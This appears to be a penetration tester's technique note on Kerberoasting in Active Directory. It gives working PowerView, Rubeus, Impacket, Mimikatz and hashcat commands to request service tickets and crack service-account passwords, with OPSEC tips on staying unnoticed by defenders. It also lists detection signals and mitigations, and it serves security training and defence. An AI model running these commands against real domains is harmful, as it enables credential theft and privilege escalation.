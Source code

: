 ```yaml
---
tags:
  - "#type/technique"
  - "#tactic/TA0006"
  - "#technique/T1558003"
  - "#stage/privilege-escalation"
  - "#stage/lateral-movement"
  - "#os/windows"
  - "#os/linux"
  - "#tool/rubeus"
  - "#tool/impacket"
  - "#tool/powerview"
  - "#tool/hashcat"
aliases:
  - Steal or Forge Kerberos Tickets
  - SPN Roasting
  - Kerberoast
---
```

## Technique
___
Kerberoasting is a post-exploitation attack technique that targets Microsoft Active Directory. An attacker with credentials for any valid domain account (even a low-privilege one) can request Kerberos service tickets for accounts that have a Service Principal Name (SPN) configured.

A portion of the returned ticket-granting service (TGS) ticket is encrypted with the NTLM hash of the service account's password. The attacker captures this ticket and takes it offline to crack the password using brute-force methods. Since the cracking happens offline, it does not generate failed login events on the network, making it a stealthy way to escalate privileges by compromising potentially high-value service accounts.

## Prerequisites
___

**Access Level:** A valid Active Directory domain account. No special or elevated privileges are required.

**System State:** The attacker must have network access to a Domain Controller to request tickets.

**Information:** The attacker needs to identify user accounts (not computer accounts) that have an SPN configured.

**Misc**: Your system time must be synced with the DC

Linux:

```bash
sudo timedatectl set-ntp off
sudo rdate -n <targetDC>
```

Windows:

```powershell
NET TIME /DOMAIN
NET TIME \\<MACHINENAME> /SET /Y
NET TIME \\<IP Address> /SET /Y
```


## Considerations
___

**Impact**

Successful cracking of a service account password can lead to significant privilege escalation and lateral movement. Service accounts are often misconfigured with excessive permissions (including Domain Admin) to ensure applications work, making them high-value targets.

**OPSEC**

- **Noise:** Requesting service tickets for many SPNs in a short period can trigger alerts. A single user requesting dozens or hundreds of TGS tickets (Event ID 4769) is highly anomalous.

- **Weak Encryption:** Modern tools like Rubeus allow you to request tickets using the weaker RC4 encryption algorithm (`-rc4opsec`). While this makes cracking easier, requesting a ticket with encryption type `0x17` (RC4-HMAC) in an environment that defaults to AES is a major red flag for defenders.

- **Honeypots:** Defenders can create fake service accounts with tempting SPNs (e.g., `sql_prod_admin_svc`) and monitor them. Any ticket requests for these honeypot accounts are an immediate indicator of compromise.

## Execution
___
### Requesting a ticket
#### **PowerView.ps1**

Identify kerberoastable users

```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

Request ticket

```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### **Rubeus**

Get information about kerberoastable users

```powershell
.\Rubeus.exe kerberoast /stats
```

Kerberoast all users

```powershell
.\Rubeus.exe kerberoast 
```

**Useful flags**:

- `/outfile` outputs roasted hashes to the specified file, one per line.
- `/tgtdeleg` accounts with AES enabled in `msDS-SupportedEncryptionTypes` will have RC4 tickets requested. (Doesn't work on >= Win 2019)
- `/rc4opsec` tgtdeleg trick is used, and accounts without AES enabled are enumerated and roasted.
- `/simple` output tickets one per line in the terminal
- `/nowrap` don't wrap new lines and output to terminal
- `/user:<DomainUser>` specify user to kerberoast

#### **Impacket**

Kerberoast all users

```bash
impacket-GetUserSPNs domain.local/username:'password' -request -dc-ip <dcip>
```

Kerberoast specific user

```bash
impacket-GetUserSPNs domain.local/username:'password' -request-user <user> -dc-ip <dcip>
```

**Useful flags:**

- `-outputfile` send output to file

#### **PowerShell** + Mimikatz

Identify kerberoastable users.

```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

```
setspn.exe -Q */*
```

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.domain.local:1433"
```

```powershell
mimikatz # base64 /out:true
mimikatz # kerberos::list 
```

```powershell
echo "<base64 blob>" |  tr -d \\n
```

```bash
cat encoded_file | base64 -d > sqldev.kirbi
```

```bash
python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Cracking a ticket

Kerberos 5 TGS-REP (etype 23, RC4-HMAC-MD5)

```bash
hashcat -m 13100 -a 0 hashes.txt /path/to/wordlist.txt
```

### Cleanup Considerations

- None

### Detection & Mitigation

#### Detection

- Event ID 4769: A Kerberos service ticket was requested

- Requests where the Ticket Encryption Type is 0x17 (RC4). In a modern environment, this should be rare

- Requests for service tickets from unusual workstations or for accounts that rarely see this activity.

- LDAP queries that search for accounts with an SPN like `(servicePrincipalName=*)`

- Create a honey account and make a custom alert for tickets requested for that account

#### Mitigation

- **Strong Passwords**: This is the most effective mitigation. Enforce a strong password policy for service accounts

- **Use Group Managed Service Accounts**: gMSAs are the gold standard. Their passwords are 240 characters long, complex, and automatically managed and rotated by Active Directory

- **Protected Users Group**: Add high-value accounts (including service accounts where possible) to the "Protected Users" security group. This enforces stronger security controls, such as disabling NTLM and preventing the use of weaker Kerberos encryption types.